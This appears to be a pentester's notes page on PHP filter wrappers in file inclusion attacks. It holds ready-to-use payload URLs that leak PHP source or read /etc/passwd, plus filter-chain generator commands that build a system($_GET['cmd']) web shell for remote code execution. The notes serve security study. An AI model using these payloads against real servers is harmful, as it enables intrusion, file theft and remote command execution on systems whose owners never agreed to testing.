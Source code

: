 # PHP Filters

PHP Filters are a powerful wrappers of lots a functionality that take input and perform operations on it without developer having to write in-house checks, filters, etc against common input to website.
- [Validation Filters perform type and pattern checks](https://www.php.net/manual/en/filter.filters.validate.php)
- [Sanitization Filters perform string operations to modify unsafe input](https://www.php.net/manual/en/filter.filters.sanitize.php)
- [Only other is "callback" where all flags are ignored](https://www.php.net/manual/en/filter.filters.misc.php)
- [PHP Filter flags](https://www.php.net/manual/en/filter.filters.flags.php) provides developers to filter by builtin conditions-on-passed-input, encode the input.

Use cases in Hacking
```php
// base64 encode to bypass filters
?php://filter/convert.base64-encode/resource=$file.php

// code execution - requires `allow_url_include`
?php://data/text/plain,$urlencodePhpcode
```

- File inclusion vulnerabilities can exists due to how PHP filters are used with `include()`.
- PHP servers are vulnerable to RFI (Remote [[File-Inclusion]]) if the `allow_url_include` it set
- If [[HTML]] tags are missing and PHP is executing on the server we can use PHP filters to add `?php://filter/convert.base64-encode/resource=$CURRENTPAGE.php` to potential return the executed PHP back


[LFI / RFI using PHP://filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers)
```php
// only php://filter is case insensitive
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
// They can be chained together with:
// | or /
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
// base64encode only for limit exfil - buffer size 8192 bytes
```
- [PHP Documentation base64encode](https://www.php.net/manual/en/function.base64-encode.php)
- [Filter Chains can used to chain encodings till a desired payload - yikes](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)
	- Generate PHP filter chains with [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
	- Junk characters do end up appended to the end
- [LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI2RCE.py)
- Consider [Hacktricks improvements on a Alles CTF script to get LFI2RCE via PHP filter](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]);?>'
```
No `system` no problem
```bash
python3 php_filter_chain_generator.py --chain '<?= exec($_GET[0]); ?>'
```

## References

[LFI / RFI using PHP://filters](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi--rfi-using-wrappers)
[PHP Documentation base64encode](https://www.php.net/manual/en/function.base64-encode.php)
[Filter Chains Usage by Synacktiv](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html) [synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
[LFI2RCE.py](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI2RCE.py)
[Hacktricks improvements on a Alles CTF script to get LFI2RCE via PHP filter](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
[Validation Filters](https://www.php.net/manual/en/filter.filters.validate.php)
[Sanitization Filters](https://www.php.net/manual/en/filter.filters.sanitize.php)
[Misc Filters](https://www.php.net/manual/en/filter.filters.misc.php)
[PHP Filter flags](https://www.php.net/manual/en/filter.filters.flags.php) 

